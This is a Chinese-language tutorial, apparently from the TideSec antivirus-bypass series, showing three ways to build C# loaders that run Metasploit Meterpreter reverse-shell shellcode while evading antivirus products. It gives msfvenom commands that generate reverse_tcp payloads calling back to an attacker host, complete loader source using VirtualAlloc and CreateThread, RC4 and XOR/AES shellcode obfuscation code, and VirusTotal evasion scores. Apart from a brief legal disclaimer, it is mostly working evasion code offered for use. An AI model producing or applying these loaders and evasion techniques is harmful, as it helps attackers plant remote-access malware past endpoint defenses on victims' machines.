**声明：文中所涉及的技术、思路和工具仅供以安全为目的的学习交流使用，任何人不得将其用于非法用途以及盈利等目的，否则后果自行承担！**

[toc]


**文章打包下载及相关软件下载：[`https://github.com/TideSec/BypassAntiVirus`](https://github.com/TideSec/BypassAntiVirus)**

---

# 免杀能力一览表



**几点说明：**

**1、上表中标识 √ 说明相应杀毒软件未检测出病毒，也就是代表了Bypass。**

**2、为了更好的对比效果，大部分测试payload均使用msf的`windows/meterperter/reverse_tcp`模块生成。**

**3、由于本机测试时只是安装了360全家桶和火绒，所以默认情况下360和火绒杀毒情况指的是静态+动态查杀。360杀毒版本`5.0.0.8160`(2020.01.01)，火绒版本`5.0.34.16`(2020.01.01)，360安全卫士`12.0.0.2002`(2020.01.01)。**

**4、其他杀软的检测指标是在`virustotal.com`（简称VT）上在线查杀，所以可能只是代表了静态查杀能力，数据仅供参考，不足以作为免杀或杀软查杀能力的判断指标。**

**5、完全不必要苛求一种免杀技术能bypass所有杀软，这样的技术肯定是有的，只是没被公开，一旦公开第二天就能被杀了，其实我们只要能bypass目标主机上的杀软就足够了。**

 ---


# 1 C#加载shellcode免杀介绍

使用C#加载shellcode也是比较常见的一种免杀方式，比如之前文章里的zirikatu、veil、AVIator、SpookFlare等工具都可以对C#代码进行免杀处理，而SharpShooter和CACTUSTORCH还可以使用vbs或js执行C#的二进制payload。

这里我们介绍一下基于C#的常见手工免杀方法，C#加载shellcode也和C/C++加载类似，可以分两种方式。

1、C#源码+shellcode直接编译，且shellcode可进行一些加密混淆处理；

2、使用加载器加载C#代码，这个就是网上常见的白名单程序加载了，比如可以利用csc.exe。


# 2 C#源码直接编译exe

## 2.1 方法1：C#+shellcode直接编译(VT免杀率20/71)
 
先用msfvenom生成基于C#的shellcode,使用了`shikata_ga_nai`编码
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.211.55.2  LPORT=3333 -e x86/shikata_ga_nai  -i 15  -f csharp -o payload.txt
```
在vs2017中新建C#加密项目



然后将`payload.txt`文件中的shellcode代码复制到下面C#代码中

```
using System;
using System.Runtime.InteropServices;
namespace TCPMeterpreterProcess
{
    class Program
    {
        static void Main(string[] args)
        {
            // native function’s compiled code
            // generated with metasploit
            byte[] shellcode = new byte[] { msfvenom生成的 shellcode};
            
            UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode.Length,
MEM_COMMIT, PAGE_EXECUTE_READWRITE);
Marshal.Copy(shellcode, 0, (IntPtr)(funcAddr), shellcode.Length);
IntPtr hThread = IntPtr.Zero;
UInt32 threadId = 0;
// prepare data
IntPtr pinfo = IntPtr.Zero;
// execute native code
hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
WaitForSingleObject(hThread, 0xFFFFFFFF);
}
        private static UInt32 MEM_COMMIT = 0x1000;
private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;
[DllImport("kernel32")]
        private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr,
UInt32 size, UInt32 flAllocationType, UInt32 flProtect);
[DllImport("kernel32")]
        private static extern bool VirtualFree(IntPtr lpAddress,
UInt32 dwSize, UInt32 dwFreeType);
[DllImport("kernel32")]
        private static extern IntPtr CreateThread(
UInt32 lpThreadAttributes,
UInt32 dwStackSize,
UInt32 lpStartAddress,
IntPtr param,
UInt32 dwCreationFlags,
ref UInt32 lpThreadId
);
[DllImport("kernel32")]
        private static extern bool CloseHandle(IntPtr handle);
[DllImport("kernel32")]
        private static extern UInt32 WaitForSingleObject(
IntPtr hHandle,
UInt32 dwMilliseconds
);
[DllImport("kernel32")]
        private static extern IntPtr GetModuleHandle(
string moduleName
);
[DllImport("kernel32")]
        private static extern UInt32 GetProcAddress(
IntPtr hModule,
string procName
);
[DllImport("kernel32")]
        private static extern UInt32 LoadLibrary(
string lpFileName
);
[DllImport("kernel32")]
        private static extern UInt32 GetLastError();
}
}
```

编译运行，火绒和360都可以免杀



可正常上线



virustotal.com中20/71个报毒



## 2.2 方法2：C#+加密处理shellcode免杀(VT免杀率8/70)

先用msf生成基于c#的shellcode

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.211.55.2  LPORT=3333 -f csharp -o payload.txt
```

在vs2017中新建C#加密项目


把上面`payload.txt`中的c#代码放入下面的加密代码中

加密代码

```
using System;
using System.Collections.Generic;
using System.IO;
using System.Linq;
using System.Security.Cryptography;
using System.Text;
using System.Threading.Tasks;
using System.Reflection;
using System.Runtime.CompilerServices;
using System.Runtime.InteropServices;


namespace Payload_Encrypt_Maker
{ class Program
    {  
         // 加密密钥，可以更改，加解密源码中保持KEY一致就行
        static byte[] KEY = { 0x11, 0x22, 0x11, 0x00, 0x00, 0x01, 0xd0, 0x00, 0x00, 0x11, 0x00, 0x00, 0x00, 0x00, 0x00, 0x11, 0x00, 0x11, 0x01, 0x11, 0x11, 0x00, 0x00 };
        static byte[] IV = { 0x00, 0xcc, 0x00, 0x00, 0x00, 0xcc };
        static byte[] payload ={0x6b,0xa9};    // 替换成MSF生成的shellcode
      
        private static class Encryption_Class
        {
            public static string Encrypt(string key, string data)
            {
                Encoding unicode = Encoding.Unicode;

                return Convert.ToBase64String(Encrypt(unicode.GetBytes(key), unicode.GetBytes(data)));
            }

            

            public static byte[] Encrypt(byte[] key, byte[] data)
            {
                return EncryptOutput(key, data).ToArray();
            }

           

            private static byte[] EncryptInitalize(byte[] key)
            {
                byte[] s = Enumerable.Range(0, 256)
                  .Select(i => (byte)i)
                  .ToArray();

                for (int i = 0, j = 0; i < 256; i++)
                {
                    j = (j + key[i % key.Length] + s[i]) & 255;

                    Swap(s, i, j);
                }

                return s;
            }

            private static IEnumerable<byte> EncryptOutput(byte[] key, IEnumerable<byte> data)
            {
                byte[] s = EncryptInitalize(key);

                int i = 0;
                int j = 0;

                return data.Select((b) =>
                {
                    i = (i + 1) & 255;
                    j = (j + s[i]) & 255;

                    Swap(s, i, j);

                    return (byte)(b ^ s[(s[i] + s[j]) & 255]);
                });
            }

            private static void Swap(byte[] s, int i, int j)
            {
                byte c = s[i];

                s[i] = s[j];
                s[j] = c;
            }
        }
        static void Main(string[] args)
        {
            byte[] result = Encryption_Class.Encrypt(KEY, payload);
            int b = 0;
            for (int i = 0; i < result.Length; i++)
            {   b++;
                if (i == result.Length+1)
                {Console.Write(result[i].ToString());}
                if (i != result.Length) { Console.Write(result[i].ToString() + ","); }
            }
        }
    }
}
```
编译生成一段加密后的shellcode



在vs2017中再新建C#解密项目

解密及执行代码

```
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Runtime.InteropServices;
using System.Threading;
using System.Reflection;
using System.Runtime.CompilerServices;


namespace NativePayload_Reverse_tcp
{
    public class Program
    {
        public static void Main()
        {
            Shellcode.Exec();
        }

    }

    class Shellcode
    {
        public static void Exec()
        {
            string Payload_Encrypted;
            Payload_Encrypted = "0,244,36,163,code_herer";
            string[] Payload_Encrypted_Without_delimiterChar = Payload_Encrypted.Split(',');
            byte[] _X_to_Bytes = new byte[Payload_Encrypted_Without_delimiterChar.Length];
            for (int i = 0; i < Payload_Encrypted_Without_delimiterChar.Length; i++)
            {
                byte current = Convert.ToByte(Payload_Encrypted_Without_delimiterChar[i].ToString());
                _X_to_Bytes[i] = current;
            }
            // 解密密钥，可以更改，加解密源码中保持KEY一致就行
            byte[] KEY = { 0x11, 0x22, 0x11, 0x00, 0x00, 0x01, 0xd0, 0x00, 0x00, 0x11, 0x00, 0x00, 0x00, 0x00, 0x00, 0x11, 0x00, 0x11, 0x01, 0x11, 0x11, 0x00, 0x00 };
            byte[] MsfPayload = Decrypt(KEY, _X_to_Bytes);
            // 加载shellcode
            IntPtr returnAddr = VirtualAlloc((IntPtr)0, (uint)Math.Max(MsfPayload.Length, 0x1000), 0x3000, 0x40);
            Marshal.Copy(MsfPayload, 0, returnAddr, MsfPayload.Length);
            CreateThread((IntPtr)0, 0, returnAddr, (IntPtr)0, 0, (IntPtr)0);
            Thread.Sleep(2000);
        }

        public static byte[] Decrypt(byte[] key, byte[] data)
        {
            return EncryptOutput(key, data).ToArray();
        }
        private static byte[] EncryptInitalize(byte[] key)
        {
            byte[] s = Enumerable.Range(0, 256)
              .Select(i => (byte)i)
              .ToArray();

            for (int i = 0, j = 0; i < 256; i++)
            {
                j = (j + key[i % key.Length] + s[i]) & 255;
                Swap(s, i, j);
            }

            return s;
        }
        private static IEnumerable<byte> EncryptOutput(byte[] key, IEnumerable<byte> data)
        {
            byte[] s = EncryptInitalize(key);

            int i = 0;
            int j = 0;

            return data.Select((b) =>
            {
                i = (i + 1) & 255;
                j = (j + s[i]) & 255;

                Swap(s, i, j);

                return (byte)(b ^ s[(s[i] + s[j]) & 255]);
            });
        }
        private static void Swap(byte[] s, int i, int j)
        {
            byte c = s[i];

            s[i] = s[j];
            s[j] = c;
        }
        [DllImport("kernel32.dll")]
        public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
        [DllImport("kernel32.dll")]
        public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
    }
}
```
编译或执行时如果报错，可以查看下面的两个项目属性是否设置有问题



执行生成的ConsoleApp2.exe，可过360和火绒



virustotal.com中8/70个报毒



## 2.3 方法3：XOR/AES编码shellcode(VT免杀率14/71)

这个和专题27中介绍的C++的XOR编码方式一样。

需要使用一个工具`https://github.com/Arno0x/ShellcodeWrapper`

先用msfvenom生成一个raw格式的shellcode
```
msfvenom -p  windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 6 -b '\x00' lhost=10.211.55.2 lport=3333  -f raw > shellcode.raw
```

在`ShellcodeWrapper`文件夹中执行下面命令，其中`tidesec`为自己设置的key。
```
python shellcode_encoder.py -cpp -cs -py shellcode.raw tidesec xor
```


生成了三个文件，其中C#为我们需要的文件。

其中`encryptedShellcodeWrapper_xor.cpp`文件中的C#源码如下

```
/*
Author: Arno0x0x, Twitter: @Arno0x0x

How to compile:
===============
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe /out:encryptedShellcodeWrapper_xor.exe encryptedShellcodeWrapper_xor.cs

*/

using System;
using System.IO;
using System.Collections.Generic;
using System.Text;
using System.Threading.Tasks;
using System.Security.Cryptography;
using System.Runtime.InteropServices;

namespace RunShellCode
{
    static class Program
    {
        //==============================================================================
        // CRYPTO FUNCTIONS
        //==============================================================================
        private static T[] SubArray<T>(this T[] data, int index, int length)
        {
            T[] result = new T[length];
            Array.Copy(data, index, result, 0, length);
            return result;
        }

        private static byte[] xor(byte[] cipher, byte[] key) {
            byte[] decrypted = new byte[cipher.Length];

            for(int i = 0; i < cipher.Length; i++) {
                decrypted[i] = (byte) (cipher[i] ^ key[i % key.Length]);
            }

            return decrypted;
        }

        //--------------------------------------------------------------------------------------------------
        // Decrypts the given a plaintext message byte array with a given 128 bits key
        // Returns the unencrypted message
        //--------------------------------------------------------------------------------------------------
        private static byte[] aesDecrypt(byte[] cipher, byte[] key)
        {
            var IV = cipher.SubArray(0, 16);
            var encryptedMessage = cipher.SubArray(16, cipher.Length - 16);

            // Create an AesManaged object with the specified key and IV.
            using (AesManaged aes = new AesManaged())
            {
                aes.Padding = PaddingMode.PKCS7;
                aes.KeySize = 128;
                aes.Key = key;
                aes.IV = IV;

                using (MemoryStream ms = new MemoryStream())
                {
                    using (CryptoStream cs = new CryptoStream(ms, aes.CreateDecryptor(), CryptoStreamMode.Write))
                    {
                        cs.Write(encryptedMessage, 0, encryptedMessage.Length);
                    }

                    return ms.ToArray();
                }
            }
        }

        //==============================================================================
        // MAIN FUNCTION
        //==============================================================================
        static void Main()
        {
            byte[] encryptedShellcode = new byte[] { shellcode };
            string key = "tidesec";
            string cipherType = "xor";


            byte[] shellcode = null;

            //--------------------------------------------------------------
            // Decrypt the shellcode
            if (cipherType == "xor") {
                shellcode = xor(encryptedShellcode, Encoding.ASCII.GetBytes(key));
            }
            else if (cipherType == "aes") {
                shellcode = aesDecrypt(encryptedShellcode, Convert.FromBase64String(key));
            }
                        
            //--------------------------------------------------------------        	
            // Copy decrypted shellcode to memory
            UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
            Marshal.Copy(shellcode, 0, (IntPtr)(funcAddr), shellcode.Length);
            IntPtr hThread = IntPtr.Zero;
            UInt32 threadId = 0;

            // Prepare data
            IntPtr pinfo = IntPtr.Zero;

            // Invoke the shellcode
            hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
            return;
        }

        private static UInt32 MEM_COMMIT = 0x1000;
        private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;

        // The usual Win32 API trio functions: VirtualAlloc, CreateThread, WaitForSingleObject
        [DllImport("kernel32")]
        private static extern UInt32 VirtualAlloc(
            UInt32 lpStartAddr,
            UInt32 size,
            UInt32 flAllocationType,
            UInt32 flProtect
        );

        [DllImport("kernel32")]
        private static extern IntPtr CreateThread(
            UInt32 lpThreadAttributes,
            UInt32 dwStackSize,
            UInt32 lpStartAddress,
            IntPtr param,
            UInt32 dwCreationFlags,
            ref UInt32 lpThreadId
        );

        [DllImport("kernel32")]
        private static extern UInt32 WaitForSingleObject(
            IntPtr hHandle,
            UInt32 dwMilliseconds
        );
    }
}

```
在vs2017中新建C#项目,编译运行,火绒和360均可绕过。



msf中正常上线



virustotal.com中14/71个报毒

